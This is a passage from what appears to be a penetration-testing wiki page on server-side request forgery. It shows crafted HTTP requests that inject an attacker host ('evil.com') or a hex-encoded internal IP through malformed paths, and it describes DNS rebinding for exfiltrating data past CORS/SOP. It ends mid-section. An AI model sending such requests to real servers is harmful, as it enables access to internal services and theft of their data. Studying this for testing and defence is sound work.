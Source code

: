 It was discovered that It's possible to **start the path** of a request with character **`;`** which allows to use then **`@`**  and inject a new host to access. Attack request:

```http
GET ;@evil.com/url HTTP/1.1
Host: target.com
Connection: close
```

### PHP Built-in Web Server <a href="#heading-php-built-in-web-server-case-study-ssrf-through-incorrect-pathname-interpretation" id="heading-php-built-in-web-server-case-study-ssrf-through-incorrect-pathname-interpretation"></a>

<details><summary>Vulnerable PHP code</summary></details>

PHP allows the use of the **char `*` before a slash in the path** of the URL, however, it has other limitations like that it can only be used for the root pathname `/` and that dots `.` are not permitted before the first slash, so it's needed to use a dotless-hex encoded IP address for example:

```http
GET *@0xa9fea9fe/ HTTP/1.1
Host: target.com
Connection: close
```

## DNS Rebidding CORS/SOP bypass

If you are having **problems** to **exfiltrate content from a local IP** because of **CORS/SOP**, **DNS Rebidding** can be used to bypass that limitation:

{% content-ref url="../cors-bypass.md" %}
[cors-bypass.md](../cors-bypass.md)
{% endcontent-ref %}

### Automated DNS Rebidding

[**`Singularity of Origin`**](https://github.com/nccgroup/singularity) is a tool to perform [DNS rebinding](https://en.wikipedia.org/wiki/DNS\_rebinding) attacks. It includes the necessary components to rebind the IP address of the attack server DNS name to the target machine's IP address and to serve attack payloads to exploit vulnerable software on the target machine.

Check out also the **publicly running server in** [**http://rebind.it/singularity.html**](http://rebind.it/singularity.html)

## DNS Rebidding + TLS Session ID/Session ticket

Requirements:

* **SSRF**
* **Outbound TLS sessions**
* **Stuff on local ports**

Attack:
